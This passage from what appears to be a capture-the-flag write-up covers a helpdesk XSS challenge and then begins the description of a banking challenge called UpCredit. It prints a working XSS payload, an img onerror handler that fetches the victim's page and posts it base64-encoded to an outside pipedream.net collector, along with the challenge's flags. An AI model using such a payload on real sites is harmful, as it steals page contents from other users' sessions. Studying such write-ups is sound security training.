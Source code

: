 After some tests, we can find the flag in ticket's pages with the message:

```html
<img src=1 onerror='$.ajax({url:window.location.pathname,type:"GET",success:function(e){$.ajax({type:"POST",url:"https://enumx07eez4ab.x.pipedream.net/",data:{foo:btoa(e)}})}});'></img>
```

We can read in the source code:

```javascript
<script type="text/javascript">
    var xss_detected = false;
    alert = function() {
        xss_detected = true;
    }
    
    window.onload = function() {
        if (xss_detected) {
            document.getElementById("response").value = "Bien joué, voici le flag : \"BewareOfXss!\"\n\n";
        }
    }
</script>
```

The flag is: `BewareOfXss!`

### EDIT (challenge was modified)

After an update of the challenge, the flag was put directly in the TODOLIST

```
TODOLIST

- Fix the kernel panic problem on the servers
- Find a solution for the XSS on the helpdesk system
- Hide the flag "BEtter_BUT_ST!LL_N0tttttttttt++Prfct!" a little bit better
```

The flag is: `BEtter_BUT_ST!LL_N0tttttttttt++Prfct!`

## UpCredit (100 points)
```
Description

En tant qu’ingénieur expert en recherche de vulnérabilité nouvellement embauché à DGA MI, vous décidez de changer de banque.

La banque UpCredit est une banque 100% en ligne. Vous pouvez vous inscrire et gérer immédiatement votre compte !

Pour obtenir le flag, vous devrez dépenser 200€. Vous pouvez contacter votre conseiller à tout moment pour qu'il vous aide.

Accès à l'épreuve
URL: http://upcredit4.chall.malicecyber.com/
```
